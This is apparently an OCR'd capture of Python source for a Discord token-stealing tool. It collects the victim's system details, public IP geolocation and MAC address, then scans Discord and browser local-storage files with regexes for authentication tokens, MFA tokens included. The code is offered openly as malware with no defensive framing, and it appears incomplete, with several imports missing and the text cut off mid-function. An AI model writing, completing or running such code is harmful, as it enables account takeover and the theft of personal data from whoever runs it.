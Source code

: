 ```
from shutil import copyfile
from sys import argv
import discord
from discord.ext import commands
from io import BytesIO

intents = discord.Intents.default()
intents.message_content = True
bot = commands.Bot(command_prefix='!', intents=intents)

def scale(bytes, suffix="B"):
    defined = 1024
    for unit in ["", "K", "M", "G", "T", "P"]:
        if bytes < defined:
            return f"{bytes:.2f}{unit}{suffix}"
        bytes /= defined

uname = platform.uname()
bt = datetime.fromtimestamp(psutil.boot_time())
host = socket.gethostname()
localip = socket.gethostbyname(host)

publicip = get(f'https://ipinfo.io/ip').text
city = get(f'https://ipinfo.io/{publicip}/city').text
region = get(f'https://ipinfo.io/{publicip}/region').text
postal = get(f'https://ipinfo.io/{publicip}/postal').text
timezone = get(f'https://ipinfo.io/{publicip}/timezone').text
currency = get(f'https://ipinfo.io/{publicip}/currency').text
country = get(f'https://ipinfo.io/{publicip}/country').text
loc = get(f"https://ipinfo.io/{publicip}/loc").text
vpn = requests.get('http://ip-api.com/json?fields=proxy')
proxy = vpn.json()['proxy']
mac = get_mac()

roaming = os.getenv('AppData')
output = open(roaming + "temp.txt", "a")

Directories = {
        'Discord': roaming + '\\Discord',
        'Discord Two': roaming + '\\discord',
        'Discord Canary': roaming + '\\Discordcanary',
        'Discord Canary Two': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': roaming + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': roaming + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': roaming + '\\Yandex\\YandexBrowser\\User Data\\Default',
}

def Yoink(Directory):
    Directory += '\\Local Storage\\leveldb'
    Tokens = []

    for FileName in os.listdir(Directory):
        if not FileName.endswith('.log') and not FileName.endswith('.ldb'):
            continue

        for line in [x.strip() for x in open(f'{Directory}\\{FileName}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for Token in re.findall(regex, line):
                    Tokens.append(Token)

```